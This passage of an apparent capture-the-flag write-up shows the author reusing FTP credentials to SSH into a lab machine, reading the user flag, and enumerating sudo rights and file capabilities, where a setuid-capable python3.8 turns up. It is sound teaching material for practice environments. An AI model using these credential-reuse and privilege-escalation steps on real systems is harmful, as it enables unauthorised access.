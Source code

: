 It looks like the FTP server serves the home directory of the user. So let's try to log in to SHH directly with the same credentials.

```console
$ ssh nathan@10.10.10.245
nathan@10.10.10.245's password:
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri Oct  1 17:33:05 UTC 2021

  System load:  0.0               Processes:             249
  Usage of /:   39.7% of 8.73GB   Users logged in:       1
  Memory usage: 41%               IPv4 address for eth0: 10.10.10.245
  Swap usage:   0%

  => There are 4 zombie processes.


63 updates can be applied immediately.
42 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Fri Oct  1 16:56:00 2021 from 10.10.14.147
-bash-5.0$ id
uid=1001(nathan) gid=1001(nathan) groups=1001(nathan)
-bash-5.0$ cat user.txt
```

His home directory contains the `user.txt` flag, and we have privileges to read it. The next step is to get root access and read the root flag!

## Privilege Escalation
---

Now let's search sudo permissions, SUID binaries and capabilities to try to escalate privileges.

```console
-bash-5.0$ sudo -l
[sudo] password for nathan:
Sorry, user nathan may not run sudo on cap.
-bash-5.0$ getcap -r / 2>/dev/null
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```
